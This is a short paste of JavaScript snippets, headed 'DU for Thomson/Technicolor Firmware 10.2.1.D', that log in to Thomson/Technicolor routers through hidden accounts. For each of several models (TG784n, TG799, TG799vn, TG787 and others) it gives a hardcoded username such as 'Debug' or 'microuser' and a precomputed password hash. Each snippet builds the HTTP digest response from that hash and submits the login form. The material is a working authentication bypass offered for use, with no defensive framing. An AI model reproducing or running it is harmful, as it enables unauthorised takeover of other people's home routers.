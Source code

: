 meo
===

DU for Thomson/Technicolor
Firmware 10.2.1.D

===

2.0- TG784n:

var user = "Debug";
var hash2 = "91cd28f3d8d3a503e9839caaa2929123";

var HA2 = MD5("GET" + ":" + uri);
document.getElementById("user").value = user;
document.getElementById("hidepw").value = MD5(hash2 + ":" + nonce +":" + "00000001" + ":" + "xyz" + ":" + qop + ":" + HA2);
document.authform.submit();

===

2.1- TG799:

var user = "microuser";
var hash2 = "bd739b58aea3a4278d11bff06496a38f";

var HA2 = MD5("GET" + ":" + uri);
document.getElementById("user").value = user;
document.getElementById("hidepw").value = MD5(hash2 + ":" + nonce +":" + "00000001" + ":" + "xyz" + ":" + qop + ":" + HA2);
document.authform.submit();

===

2.2- TG799vn:

var user = "Debug";
var hash2 = "082d7ff2a82ff89c3f9c5b2356144357";

var HA2 = MD5("GET" + ":" + uri);
document.getElementById("user").value = user;
document.getElementById("hidepw").value = MD5(hash2 + ":" + nonce +":" + "00000001" + ":" + "xyz" + ":" + qop + ":" + HA2);
document.authform.submit();

===

2.3- TG787:

var user = "Debug";
var hash2 = "1019a97d050c3ef42997740ee54731bf";

var HA2 = MD5("GET" + ":" + uri);
document.getElementById("user").value = user;
document.getElementById("hidepw").value = MD5(hash2 + ":" + nonce +":" + "00000001" + ":" + "xyz" + ":" + qop + ":" + HA2);
document.authform.submit();

===

2.4- TG784n v3:

var user = "Debug";
var hash2 = "276da5030a939d29642637f279629770";

var HA2 = MD5("GET" + ":" + uri);
document.getElementById("user").value = user;
document.getElementById("hidepw").value = MD5(hash2 + ":" + nonce +":" + "00000001" + ":" + "xyz" + ":" + qop + ":" + HA2);
document.authform.submit();

===

2.5- Para outras versões:

var user = "Debug";
var hash2 = "f2bb79a855558478357aa3ef778ffa1a";

var HA2 = MD5("GET" + ":" + uri);
document.getElementById("user").value = user;
document.getElementById("hidepw").value = MD5(hash2 + ":" + nonce +":" + "00000001" + ":" + "xyz" + ":" + qop + ":" + HA2);
document.authform.submit();
